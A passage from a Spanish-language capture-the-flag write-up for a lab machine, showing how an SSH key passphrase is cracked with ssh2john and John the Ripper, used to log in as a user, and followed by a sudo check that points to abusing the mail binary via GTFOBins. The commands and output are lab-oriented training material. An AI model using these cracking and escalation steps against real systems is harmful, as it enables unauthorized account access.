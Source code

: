 Para poder crackear esta llave, necesitamos obtener el hash con la herramienta **ssh2john**:
```bash
ssh2john id_rsa > hash
```

Y ahora, utilizamos **JohnTheRipper** para crackear el hash:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mittens          (id_rsa)     
1g 0:00:01:11 DONE (2025-06-26 17:56) 0.01392g/s 35.42p/s 35.42c/s 35.42C/s shamrock..12344321
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tenemos la frase usada en la **llave privada id_rsa**.

Con esto, podemos autenticarnos en la máquina víctima vía **SSH** utilizando la misma llave y la frase obtenida:
```bash
ssh -i id_rsa pepino@192.168.10.150
Enter passphrase for key 'id_rsa': 
Linux gazpacho 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64
...
Last login: Fri Jun 27 00:46:24 2025
pepino@gazpacho:~$ whoami
pepino
```
Ahora somos el **usuario pepino**.

<br>

<h2 id="mail">Abusando de Privilegios Sobre Binario mail para Escalar Privilegios y Convertirnos en el Usuario tomate</h2>

Este usuario tampoco tiene algún archivo o pista que nos ayude.

Veamos qué privilegios tiene:
```bash
pepino@gazpacho:~$ sudo -l
Matching Defaults entries for pepino on gazpacho:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pepino may run the following commands on gazpacho:
    (tomate) NOPASSWD: /usr/bin/mail
```

Busquemos en la **guía de GTFOBins** cómo podemos abusar del **binario mail**, para escalar privilegios y convertirnos en el **usuario tomate**:
* <a href="https://gtfobins.github.io/gtfobins/mail/" target="_blank">GTFOBins: mail</a>
